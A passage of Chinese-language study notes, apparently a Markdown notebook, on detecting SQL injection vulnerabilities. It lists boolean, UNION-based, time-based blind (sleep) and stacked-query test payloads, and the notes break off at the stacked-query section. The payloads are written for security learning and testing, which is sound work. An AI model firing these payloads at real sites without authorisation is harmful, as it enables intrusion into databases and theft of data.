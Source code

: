<img src="C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240913164645633.png" alt="image-20240913164645633" style="zoom:67%;" />

#### 判断字符类型

简写

```
' 
"
```

![image-20240913165659978](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240913165659978.png)



```sql
1' and '1' = '1
```

![image-20240913165126172](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240913165126172.png)



```sql
1' and '1' = '2
```

![image-20240913164210216](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240913164210216.png)



### 3.基于UNION联合查询的检测

```
'union select 1 #
```

<img src="C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240913171502064.png" alt="image-20240913171502064" style="zoom:50%;" />



<img src="C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240913171535483.png" alt="image-20240913171535483" style="zoom:67%;" />

### 4 基于时间的盲测的检测（时间函数sleep）

```
'and (select * from (select(sleep(20)))a)--+
```

通过观察**平常查询**与**使用时间暂停**之间使用的时间差，来判断，是否存在时间盲测

![image-20240913170117289](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240913170117289.png)





### 5.基于叠对查询的检测（；）

使用";"结束前面的语句，自己在写一个查询语句。
